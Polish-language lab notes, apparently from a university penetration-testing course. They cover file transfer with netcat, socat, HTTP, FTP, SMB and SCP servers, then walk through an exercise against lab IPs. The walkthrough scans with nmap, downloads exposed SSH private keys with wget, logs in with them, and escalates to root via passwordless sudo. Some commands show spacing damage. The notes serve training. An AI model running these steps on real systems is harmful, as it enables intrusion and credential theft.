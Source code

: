 # Netcat
## TCP
### Download
Ściągnięcie pliku hostowanego przez maszynę 192.168.100.5 na porcie 10001/tcp.
`nc 192.168.100.5 10001 > tcpconnect.png`
albo
`socat-u tcp-connect:192.168.100.5:10001 open:tcpconnect.png,creat`
### Upload
Wysłanie pliku z poprzedniego zadania na port 20001/tcp do hosta 192.168.100.5.
`cat tcpconnect.png | nc 192.168.100.5 20001`
alternatywnie socat:
`socat -u file:tcpconnect.png tcp-listen:20001,reuseaddr`
___
## UDP
### Download
Ściągnięcie pliku hostowanego przez maszynę 192.168.100.5 na porcie 10002/udp.
`echo | nc -u 192.168.100.5 10002 -w 5 > udpconnect.png`
### Upload
Wysłanie pliku z poprzedniego zadania na port 20002/udp do hosta 192.168.100.5.
`cat udpconnect.png |  nc-u 192.168.100.5 20002 -w 5`
___
## TCP listen
### Download
Ściągnięcie pliku wysyłanego co około 30 sekund na port 10003/tcp na maszynę (Twoją) podłączoną do sieci VPN.
`nc -lvp 10003 > tcplisten.png`
### Upload
Zahostowanie pliku z poprzedniego zadania na porcie 20003/tcp na maszynie (Twojej) podłączonej do sieci VPN. 
`cat tcplisten.png |  nc-lvp 20003`
___
## UDP listen
### Download
ściągnięcie pliku wysyłanego co około 30 sekund na port 10004/udp na maszynę (Twoją) podłączoną do sieci VPN.
Po otrzymaniu komunikatu o nawiązaniu połączenia możemy wcisnąć kombinację CTRL-C lub poczekać na timeout (-w 30).
`nc-luvp 10004 -w 30 > udplisten.png`
### Upload
Zahostowanie pliku z poprzedniego zadania na porcie 20004/udpna maszynie (Twojej) podłączonej do sieci VPN.
`cat udplisten.png |  nc -ulvp 20004` #CTRL-C po pojawieniu się napisu „UPLOADED”
___
## HTTP/HTTPS
### Serwer HTTP (Python)
Uruchomienie serwera HTTP na porcie 80 za pomocą Pythona:
`python3 -m http.server 80`
### Serwer HTTP (Apache)
Uruchomienie serwera HTTP Apache2 na porcie 80:
```
sudo apt update && sudo apt install apache2 #jeżeli apache2 
nie jest zainstalowany
sudo systemctl start apache2
```
### Serwer HTTPS (Apache)
Uruchomienie serwera HTTPS Apache2 na porcie 443:
```
sudo a2enmod ssl
sudo a2ensite default-ssl.conf
sudo systemctl restart apache2
```
___
## FTP
### Serwer FTP (Python)
Uruchomienie serwera FTP na porcie 21 za pomocą Pythona:
```
sudo apt update && sudo apt install python3-pyftpdlib
 python3 -m pyftpdlib-p 21
```
___
## SMB
### Serwer SMB (Python)
Uruchomienie serwera SMB na porcie 445 za pomocą Pythona:
```
locate smbserver.py #skrypt domyślnie zainstalowany na Kali
sudo apt install python3-impacket #komenda do instalacji, jeżeli skrypt nie istnieje
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -ip 0.0.0.0 -smb2support pjatksmbshare /home/student
# użycie skryptu smbserver.py może różnić się od użytej wersji. Zaleca się wykorzystanie przełącznika --help w razie 
problemów.

Gdzie:-ip 0.0.0.0 – oznacza nasłuchiwanie na wszystkich interfejsach-smb2suport – oznacza włączenie wsparcia dla nowszej wersji protokołu SMB
pjatksmbshare– dowolna nazwa udostępnianego zasobu
/home/student – ścieżka udostępnianego katalogu
```
___
## SCP
### Serwer SSH (SCP)
Uruchomienie serwera SSH (SCP) na porcie 22:
```
sudo apt install openssh-server #jeżeli serwer nie jest zainstalowany
sudo systemctl start ssh
```
___
## Ćwiczenia Pentest
1. Celem zadania jest ściągnięcie na Kali statycznej wersji narzędzia Nmap:
`wget https://github.com/opsec-infosec/nmap-static-binaries/releases/download/v2/nmap-x64.tar.gz`
Następnie przeniesienie go w ulubiony sposób na maszynę 192.168.100.5
`scp nmap-x64.tar.gz student@192.168.100.5:/home/student`

Po przekopiowaniu archiwum, łączymy się na maszynę za pomocą ssh i wypakowujemy archiwum:
ssh student@192.168.100.5 #łączymysięzmaszyną192.168.100.5, gdziewgraliśmy Nmap. Hasło: pjatk
tar zxvf nmap-x64.tar.gz#wypakowanie plikówzarchiwumtar.gznamaszynie 192.168.100.5

2. Celem zadania jest przeskanowanie maszyny 192.168.200.55 z uwzględnieniem
 wykrycia wersji usług. Skan uruchamiamy na maszynie 192.168.100.5:
``` ./nmap-n -Pn-sV-p--vv 192.168.200.55
-n – nie odpytuje DNS,  
-Pn– traktuje hosta jako online, 
-sV– szuka usług (TCP) i ich wersji,
-p- -skanuje wszystkie porty (TCP),
-vv– odpowiada za pokazywanie wyników w czasie rzeczywistym (w trakcie skanowania),
192.168.200.55– adres IP celu. 
```
Skan powinien wykryć usługę webową. Za pomocą curl lub wget możemy
wyświetlić jej zawartość:
``` 
curl 192.168.200.55
wget-O - 192.168.200.55
```

3. Celem zadania jest pobranie pary kluczy SSH, które są widoczne na listingu plików w zahostowanym katalogu domowym
` wget-r --no-parent http://192.168.200.55`
Komenda wget stworzy katalog o nazwie 192.168.200.55, do którego zapisze wszystkie pliki z serwera webowego:  
` ls-la 192.168.200.55/`

4. Celem zadania jest zalogowanie się do maszyny 192.168.200.55 za pomocą
zdobytego klucza ssh. Aby się zalogować, musimy znać nazwę użytkownika właściciela klucza. Nazwa ta jest często zapisana w komentarzu klucza
publicznego:
`cat ~/192.168.200.55/.ssh/id_ed25519.pub`
Klucz prywatny musi posiadać bezpieczne uprawnienia, aby móc się nim
zalogować:
```
chmod 600 ./192.168.200.55/.ssh/id_ed25519
ssh-i ~/192.168.200.55/.ssh/id_ed25519 webadmin@192.168.200.55 #nazwę 
webadminpoznaliśmy z komentarza w kluczu publicznym
```

5. Ostatnim krokiem jest eskalacja uprawnień do użytkownika root oraz przeczytanie
flagi z katalogu domowego użytkownika root. Użytkownik webadmin posiada
możliwość uruchamiania sudo bez hasła, co można wykorzystać do eskalacji:
```
id
sudo-l
sudo su
```
Ostatnim krokiem jest odczytanie flagi ukrytej w katalogu domowym użytkownika root:
`cat /root/root.txt`